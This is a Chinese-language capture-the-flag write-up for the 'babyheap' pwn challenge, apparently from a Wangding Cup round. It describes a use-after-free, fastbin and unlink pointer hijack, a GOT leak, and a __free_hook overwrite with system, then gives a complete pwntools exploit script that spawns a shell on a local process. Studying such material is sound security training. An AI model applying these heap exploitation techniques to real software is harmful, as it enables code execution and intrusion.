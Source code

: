 title: babyheap
categories:
- PWN
---

# 网鼎杯第一场

- 程序功能:新建,编辑,打印,free
- free处没有置空指针,导致可以uaf
- malloc每次都是0x20的fastbin,编辑功能可以使用3次
- 自写了readn函数,没有溢出点
- edit可以修改free后堆块的bk,fd

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Full RELRO导致got表不可写,所以只能劫持__malloc_hook或者__free_hook_来劫持程序的流程
- 现在面临两个问题,一个是泄露程序基址,一个是控制指针
- 关于泄露程序基址的问题,我们可以采用先劫持指针再leak的方法,比如指向got表的一部分,然后打印它的值
- 这里我采用unlink的方法来劫持指针,首先通过fastbin的性质,并且和存在的UAF泄露堆基址,然后利用一次edit来实现fastbin堆块的分配
- 这里我们可以用错位生成的fastbin的数据段进行修改出一个fake chunk,并且通过unlink劫持一根指指针
- 我劫持的是chunklist[9],因为这样我相当于同时控制了3根指针
- 拿到指针的控制权后,首先修改edit次数,因为count在全局变量里是int型,所以我将其修改成了0xfffffff0,也就是一个负数,这样我就可以无限次数的edit
- 随后打印got表内容,算出偏移,再次edit指针,将其指向__free_hook_,并且覆写其为system函数,free之前写好的包含"/bin/sh\x00"的堆块

# exp

```python
from pwn import *

r = process("./babyheap")
ptr = 0x602060
sys_libc = 0x45390
atoi_libc = 0x36E80

def add(index,content):
    r.sendlineafter("Choice:","1")
    r.sendlineafter("Index:",str(index))
    if len(content) == 32:
        r.sendafter("Content:",content)
    else:
        r.sendlineafter("Content:",content)

def edit(index,content):
    r.sendlineafter("Choice:","2")
    r.sendlineafter("Index:",str(index))
    if len(content) == 32:
        r.sendafter("Content:",content)
    else:
        r.sendlineafter("Content:",content)

def show(index):
    r.sendlineafter("Choice:","3")
    r.sendlineafter("Index:",str(index))

def free(index):
    r.sendlineafter("Choice:","4")
    r.sendlineafter("Index:",str(index))

def exp():
    add(9,p64(0x31)*4)
    add(0,p64(0x31)*4)
    add(1,p64(0x31)*4)
    add(2,p64(0x31)*4)

    free(1)
    free(0)
    free(9)
    show(9)
    heapbase = u64(r.recv(4) + '\x00'*4) -0x30 #heapbase
    print "%x"%heapbase
    payload = "a"*8 + p64(0x80) + p64(ptr + 8 * 9 - 0x18) + p64(ptr + 8 * 9 - 0x10)
    add(3,payload)
    edit(0,p64(heapbase + 0x80))       #fastbin
    add(4,"/bin/sh\x00")
    add(5,p64(0x80)+p64(0x90)+"flag")
    add(6,"flag")
    add(7,"flag"*8)
    add(8,"flag"*8)
    free(2) #unlink
    
    payload = p64(0x6020B0) + p64(0x601FE8)
    edit(9,payload)
    edit(6,p64(4294967286)) #count edit

    show(7)
    atoi = u64(r.recv(6) + '\x00\x00')
    hook = atoi - atoi_libc + 3958696
    sys = atoi - atoi_libc + sys_libc
    print "hook %x"%hook
    print "sys %x"%sys
    payload = p64(hook)
    edit(9,payload)
    edit(6,p64(sys))
    free(4)
    r.interactive()

if __name__=="__main__":
    exp()
```
